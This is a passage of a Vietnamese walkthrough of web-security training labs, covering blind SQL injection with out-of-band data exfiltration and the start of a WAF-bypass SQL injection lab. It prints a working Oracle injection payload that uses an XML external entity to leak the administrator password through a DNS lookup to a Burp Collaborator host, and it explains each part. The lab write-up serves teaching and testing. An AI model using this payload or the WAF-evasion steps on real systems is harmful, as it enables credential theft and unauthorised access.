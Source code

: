 1. **Lab 17: Blind SQL injection with out-of-band data exfiltration**

<aside>
💡

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- **Bước 1: Sửa đổi cookie để trích xuất mật khẩu qua DNS:**
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
- Giải thích:
`SELECT password FROM users WHERE username='administrator':` ⇒ Lấy mật khẩu của administrator từ bảng users.
`<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.abc123.burpcollaborator.net/"> %remote;:` ⇒ Đây là kỹ thuật XXE (XML External Entity): Nối mật khẩu vào tên miền, tạo ra một URL như http://[mật khẩu].abc123.burpcollaborator.net/. Ví dụ, nếu mật khẩu là pass123, URL sẽ là http://pass123.abc123.burpcollaborator.net/
`%remote` ⇒ Yêu cầu cơ sở dữ liệu tải tài nguyên từ URL này, dẫn đến một DNS lookup để phân giải tên miền pass123.abc123.burpcollaborator.net.
`EXTRACTVALUE(xmltype(...),'/l'):` ⇒ Xử lý XML và kích hoạt tương tác ngoài băng tần.
- **Bước 2: Kiểm tra tương tác trong Burp Collaborator**
⇒ Giả sử ta kiểm tra Burp Collaborator và thấy có tin nhắn gửi đến [pass123.abc123.burpcollaborator.net](http://pass123.abc123.burpcollaborator.net/). Phần trước tên miền (pass123) chính là mật khẩu ta cần. Điều này chứng minh mã SQL của ta đã lấy được mật khẩu và gửi ra ngoài qua DNS lookup.
- Tóm lại:
Dùng UNION SELECT để lấy mật khẩu từ bảng users.
Dùng kỹ thuật XXE để gửi mật khẩu qua tên miền ([mật khẩu].abc123.burpcollaborator.net).
Burp Collaborator ghi nhận DNS lookup hoặc HTTP request, từ đó đọc được mật khẩu.

1. **Lab 18: SQL injection with filter bypass via XML encoding**

<aside>
💡

This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

</aside>

- **Lỗ hổng SQL Injection:**
Trang web có tính năng kiểm tra hàng tồn kho (stock check), và dữ liệu gửi đi ở định dạng XML (qua productId và storeId)
Giá trị của storeId được đưa trực tiếp vào một truy vấn SQL mà không được kiểm tra kỹ, dẫn đến lỗ hổng SQL Injection.
Kết quả của truy vấn SQL được trả về trong phản hồi của ứng dụng, nên ta có thể dùng **UNION attack** để lấy dữ liệu từ các bảng khác.
- **Phân tích trang web:**
Có một Web Application Firewall (WAF) chặn các yêu cầu chứa dấu hiệu tấn công SQL Injection
Ta cần mã hóa truy vấn SQL để vượt qua WAF. Đề bài gợi ý dùng tiện ích Hackvertor trong Burp Suite để mã hóa.
- **Bước 1: Tìm lỗ hổng SQL Injection**
Truy cập tính năng kiểm tra hàng tồn kho (stock check) trên trang web.
Trong Burp Suite, vào tab Proxy -> HTTP history, tìm yêu cầu POST đến /product/stock. Yêu cầu này gửi dữ liệu ở định dạng XML